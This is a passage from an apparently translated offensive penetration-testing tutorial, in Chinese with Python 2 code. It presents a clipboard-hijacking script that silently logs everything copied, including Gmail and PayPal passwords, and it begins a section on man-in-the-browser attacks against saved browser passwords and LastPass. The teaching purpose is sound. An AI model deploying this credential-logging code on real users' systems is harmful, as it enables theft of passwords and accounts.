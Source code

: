 ```
list = []
```

1.  之后，我们将进入一个无限循环，不断检查剪贴板：

```
while True: # infifnite loop to continously check the clipboard

    if pyperclip.paste() != 'None': # if the clipboard content is not empty ...
        value = pyperclip.paste() # then we will take its value and put it into variable called value
        #print pyperclip.paste()

        if value not in list: #now to make sure that we don't get replicated items in our list before appending the value variable into our list
                                 #we gonna check if the value is stored earlier in the first place, if not then this means this is a new item
                                 #and we will append it to our list

            list.append(value)
        print list

        time.sleep(3)
```

如果剪贴板内容不为空（这里，空表示`None`），那么我们将获取它的值，并将其存储在一个名为`value`的变量中。为了确保`list`中不会出现重复项，在将`value`变量追加到`list`之前，我们会检查该值是否已经存在。如果没有，那么意味着这是一个新项，我们将存储它。最后，我们会打印出结果，或者您可以将其保存到文本文件中。然后，我们将休眠`3`秒，再次检查剪贴板的状态。

1.  现在，让我们运行脚本并重复整个过程一次。

1.  让我们看看当我们复制 Gmail 账户的用户名和密码时会发生什么。一旦它被复制到剪贴板，我们的脚本会立即获取剪贴板的值并将其打印出来。

1.  让我们试试我们保存的 PayPal 账户。一旦我们复制，就能看到之前输入的随机密码。

这就是密码管理器的工作原理。

# 浏览器中的中间人攻击

在本节中，我们将讨论一种新方法。正如您可能已经知道的那样，所有浏览器在您提交数据到登录页面时，都提供保存用户名和密码的功能。下次访问同一登录页面时，您会看到您的用户名和密码会自动填充，无需输入任何字符。此外，还有一些专用的第三方软件，如**LastPass**，也可以为您完成相同的工作。这里的关键是，如果目标用户使用这种方法登录，那么无论是键盘记录器还是剪贴板方法都无法奏效。

快速看一下。我们将在 Firefox 浏览器中使用 LastPass 插件。在这里打开浏览器并访问 Gmail 账户。在登录 Gmail 账户之前，我们将使用之前的剪贴板脚本：

```
# Python For Offensive PenTest

# Download Link https://pypi.python.org/pypi/pyperclip/1.5.11

# Clipboard Hijacking

import pyperclip
import time

list = [] # we create a list which will store the clipboard content

while True: # infinite loop to continuously check the clipboard

    if pyperclip.paste() != 'None': # if the clipboard content is not empty ...
        value = pyperclip.paste() # then we will take its value and put it into variable called value
        #print pyperclip.paste()

        if value not in list: #now to make sure that we don't get replicated items in our list before appending the value variable into our list
                                 #we gonna check if the value is stored earlier in the first place, if not then this means this is a new item
                                 #and we will append it to our list
```
